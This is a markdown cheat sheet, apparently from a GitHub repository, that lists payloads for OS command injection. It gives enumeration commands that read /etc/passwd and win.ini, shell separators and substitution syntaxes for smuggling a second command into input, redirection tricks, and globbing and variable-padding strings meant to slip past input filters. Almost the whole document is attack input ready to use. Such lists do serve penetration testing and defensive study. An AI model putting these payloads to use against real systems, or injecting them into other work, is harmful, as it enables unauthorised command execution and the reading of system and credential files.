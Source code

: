 # Command Injection List

## Enumeration Command Injection

### General

```
whoami
pwd
```

### Linux

- Enumerate user privileges

```
id
```

- Enumerate users

```
cat /etc/passwd
strings /etc/passwd
while read line; do echo $line; done < /etc/passwd
while IFS= read -r line;do echo "$line"; done < /etc/passwd
while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

### Windows

```
type C:\windows\win.ini
```

## Chaining Commands

```
;
$;
a;
a);
&&
&
||
|
a|
a)|
#
'
"
!
`<command>`
$(<command>)
$(`<command>`)
${<command>}
\n
0x0A
0x0a
%0A
%0a
\r
\r\n
```

## I/O Redirection

### Input

#### Linux

```
cat < /path/to/file.txt
strings < /path/to/file.txt
```

### Output

#### Linux

```
ls > /path/to/file.txt
ls >> /path/to/file.txt
$(ls) > /path/to/file.txt
$(ls) >> /path/to/file.txt
```

## Filter Evasion

### Linux

```
/bin/cat /e??/p??s??
/bin/cat /e*/pa*wd
/bin/cat /et*/pa*wd
/bin/cat /et*/pa**wd
cat$u /etc$u/passwd
```

---
## References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- [OS Command Injection tutorial – Part #1 (Basics and Filter Evasion)](https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)

- [SecJuice: Bypass Strict Input Validation With Remove Prefix and Suffix Patterns](https://www.secjuice.com/bypass-strict-input-validation-with-remove-suffix-and-prefix-pattern/)